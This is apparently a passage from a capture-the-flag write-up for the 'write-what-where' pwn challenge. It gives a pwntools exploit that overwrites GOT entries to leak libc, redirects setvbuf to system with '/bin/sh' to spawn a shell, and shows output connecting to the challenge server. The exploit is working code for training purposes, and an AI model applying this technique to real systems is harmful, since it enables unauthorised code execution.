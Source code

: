 ```python

r = process("./write-what-where")
send(r, after_init, exit_got)
log.info("exit -> after init")

send(r, puts_got, stdin_got)
send(r, 0, stdin_got + 4)
log.info("stdin -> puts got")

send(r, puts_plt, setvbuf_got)
send(r, 0, setvbuf_got + 4)
log.info("setvbuf -> puts plt")

send(r, main, exit_got)
log.info("exit -> main")

leak = u64(r.recvline().strip().ljust(8, b"\x00"))
log.info(f"{hex(leak)=}") 
libc_base = leak - libc.sym['puts']
log.info(f"{hex(libc_base)=}")
system = libc_base + libc.sym['system']
log.info(f"{hex(system)=}")
bin_sh = libc_base + next(libc.search(b"/bin/sh\x00"))
log.info(f"{hex(bin_sh)=}")
r.recvline()

send(r, after_init, exit_got)
log.info("exit -> after init")

send(r, system & 0xFFFFFFFF, setvbuf_got)
send(r, system >> 32, setvbuf_got + 4)
log.info("setvbuf -> system")

send(r, bin_sh & 0xFFFFFFFF, stdin_got)
send(r, bin_sh >> 32, stdin_got + 4)
log.info("stdin -> /bin/sh")

send(r, main, exit_got)
log.info("exit -> main")

r.interactive()
```

After it works locally, replace the path to libc to the provided one, and open a remote to the server

```
[*] '/home/kali/Downloads/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/home/kali/Downloads/write-what-where'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process './write-what-where' argv=[b'./write-what-where'] : pid 3505
[+] Opening connection to pwn-2021.duc.tf on port 31920: Done
[DEBUG] Received 0xc bytes:
    b'write\n'
    b'what?\n'
```